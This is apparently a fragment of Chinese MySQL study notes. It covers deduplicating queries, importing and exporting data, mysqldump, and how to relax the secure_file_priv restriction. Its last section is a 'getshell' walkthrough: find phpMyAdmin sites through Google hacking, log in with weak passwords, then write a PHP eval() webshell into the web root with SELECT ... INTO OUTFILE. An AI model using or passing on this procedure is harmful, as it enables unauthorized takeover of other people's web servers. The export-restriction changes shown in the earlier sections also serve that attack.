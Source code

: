##### 13.查询结果去重

​			SELECT  DISTINCT field FROM table_name WHERE conditions ；	

​			SELECT  group_concat(DISTINCT field) FROM table_name WHERE conditions ；

### 七、数据导入/出		                                                                                                                           

##### 1.MySQL导入数据

​		第一种方法：数据库文件(ning.sql)会自动创建数据库则执行mysql  -u用户名 -p密码  <  文件名(ning.sql)

​					如果数据库文件不会自动创建数据库则需要登录数据库mysql  -u用户名 -p密码

​					然后进入库（test）,执行 source 路径/ning.sql

​		 第二种方法：mysqllimport -uroot -p --local

##### 2.MySQL导出数据

​	 	第一种方法：select * from 表名 into outfile "G://news.txt"

​					第一种修改MySQL文件导出方法

​					先执行命令 show global variables like '%secure_file_priv%';

```mysql
				secure_file_priv 为 NULL 时，表示限制mysqld不允许导入或导出。
				secure_file_priv 为 /tmp （路径）时，表示限制mysqld只能在/tmp目录（路径）中执行				导入导出，其他目录不能执行。
				secure_file_priv 没有值时，表示不限制mysqld在任意目录的导入导出。
                然后在进入mysql的配置文件vi /etc/my.cnf ，在最后输入secure_file_priv=
                最后重启数据库服务就可以导出文件了。
```
##### 3.导出数据库    

​			 mysqldump -uroot -proot test>./database.sql   //在DOS下执行

​			mysqldump -uroot -p 数据库名 > 导出的文件

​			mysqldump -uroot -p 数据库名 表名 > 导出的文件名

​	

​						第二种临时修改 s et global secure_file_priv='';​				

​		  第二种数据导出方法                                                                                                          

​						create table IF NOT EXISTS 表名 如果不存在这个表就创建。	

### 八、简单Getshell

​	通过phpmyadmin 来获取服务器权限(getshell)

​	step 1: 首先通过google hacking找到phpmyadmin的网站

​	setp2:弱口令登录然后执行show global variables like '%secure_file_priv%';判断我们有没有权限

​	setp3:select `'<?php eval($_POST[_]);?>' `into outfile 'G://re2.txt';注意：写木马的路径，一般是/var

​	/www/html

